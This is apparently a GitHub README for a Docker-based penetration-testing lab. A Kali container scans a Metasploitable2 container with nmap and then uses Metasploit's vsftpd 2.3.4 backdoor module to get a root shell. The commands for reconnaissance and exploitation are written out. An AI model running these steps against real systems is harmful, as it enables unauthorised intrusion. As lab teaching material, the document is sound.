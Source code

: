 # Metasploitable2 Docker Lab
## Overview
This repository documents a cybersecurity lab that demonstrates the process of **reconnaissance and exploitation**. The lab environment was created using **Docker** to set up a secure, isolated network with a **Kali Linux** container as the attacking machine and a **Metasploitable2** container as the vulnerable target.

The primary objective was to identify and exploit common, well-known vulnerabilities to gain a command shell on the target system.
***
## Lab Environment Setup
The lab was built using **Docker** and **Docker Compose** on a Windows host machine. The `docker-compose.yml` file defines the two containers and a private network to allow them to communicate. 

**Prerequisites**
* **Docker Desktop**: Running on the host machine.
* **Git**: Installed on the host machine for cloning and version control.

**Setup Instructions**
1. **Clone the Repository**: Clone this repository to your local machine.
```
git clone https://github.com/MSearleProjects/cybersecurity-lab-1-metasploitable.git
cd cybersecurity-lab-1-metasploitable
```
2. **Launch the Containers**: Run the `docker-compose up` command from the root of this directory. This command reads the `docker-compose.yml` file and starts both containers.
```
docker-compose up -d
```
***
## Lab Walkthrough
**Reconnaissance with Nmap**

After launching the containers, the first step was to get a terminal inside the Kali container and perform a network scan to identify open ports and services on the target.
1. **Enter the Kali container**:
```
docker exec -it kali bash
```
2. **Find the target's IP**: From inside the Kali terminal, I used `ping` to find the IP address of the `metasploitable` container.
```
ping metasploitable
```
The IP address that comes back is `172.18.0.3`

3. **Run the Nmap scan**:
```
nmap -sV -sC 172.18.0.3
```
`-sV` means Service Version Detection and tells Nmap to attempt to determine the **service name and version number** of whats running on each port. `-sC` is a shortcut for `--script=default` and tells Nmap to run a set of default scripts against the target which include **vulnerability checks**, **enumeration** and **misconfiguration audits**.

4. **Findings**

The Nmap scan revealed several services with outdated and vulnerable versions.
* **FTP**: `vsftpd 2.3.4` running on port `21/tcp`.
* **SSH**: `OpenSSH 4.7p1` running on port `22/tcp`.
* **Samba**: `Samba smbd 3.0.20-Debian` running on ports `139/tcp` and `445/tcp`.
* **IRC**: `UnrealIRCd` running on port `6667/tcp`.

The `vsftpd 2.3.4` version was targeted due to a well-known backdoor vulnerability.
***
## Exploitation with Metasploit
The **Metasploit Framework** was used to exploit the `vsftpd` vulnerability and gain command shell on the target system.
1. **Launch** `msfconsole`:
```
msfconsole
```
2. **Search for the exploit**:
```
msf6 > search vsftpd
```
3. **Search and configure the exploit**: The `vsftpd_234_backdoor` module was chosen.
```
msf6 > use exploit/unix/ftp/vsftpd_234_backdoor
msf6 > set RHOSTS 172.18.0.3
msf6 > exploit
```
4. **Result**: The exploit should successfully create a reverse shell, granting command-line access to the Metasploitable2 container with **root privileges**.
***
## Conclusion
This lab demonstrates the core steps of a penetration test, from initial network scanning to gaining unauthorised access. The `vsfptd` vulnerability, while simple, serves as an example of how critical it is to keep software patched and updated.

**Disclaimer**: This lab was conducted in a controlled, isolated environment for educational purposes. Unauthorised access to any computer system is illegal and unethical.
